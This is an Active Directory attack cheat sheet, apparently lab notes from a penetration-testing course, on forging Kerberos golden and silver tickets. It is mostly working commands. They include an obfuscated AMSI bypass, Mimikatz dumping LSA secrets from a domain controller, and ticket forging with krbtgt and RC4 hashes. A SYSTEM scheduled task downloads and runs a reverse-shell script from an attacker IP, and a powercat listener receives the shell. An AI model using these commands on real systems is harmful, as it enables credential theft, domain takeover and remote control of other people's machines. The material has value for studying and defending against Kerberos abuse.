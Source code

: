 ```yaml
---
layout: page
title: "# Kerberos Golden and Silver Tickets"
permalink: /ad_cheatsheets/kerberos-golden-silver-tickets
---
```


# Kerberos Golden and Silver Tickets

## General Info

```powershell
powershell -ep bypas
```

### Getting Session to DC

```powershell
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

### AMSI Bypass

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Mimikatz in DC Session

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5ef72207-b014-4427-928b-763940417450/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5ef72207-b014-4427-928b-763940417450/Untitled.png)

## Golden Tickets

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3
219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:502 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

can verify that ticket has been made

```powershell
klist
```

We can access it

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d57025da-9955-4e2a-afc2-89679b477348/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d57025da-9955-4e2a-afc2-89679b477348/Untitled.png)

### Resources

[DCSync: Dump Password Hashes from Domain Controller](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)

[Kerberos: Golden Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

## Silver Tickets

### Create Silver Ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator/ptt"'
```

### Creating Task

```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Student648" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1''')'"
```

### Running The Task

```powershell
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Student648"
```

### Setting Up  Listener

```powershell
powercat -l -p 4444 -v -t 1024
```

### Creating Silver Ticket with that hash

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511/target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511/target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```

### Resources

[Kerberos: Silver Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

[Kerberos Attack: Silver Ticket Edition](https://www.varonis.com/blog/kerberos-attack-silver-ticket/)
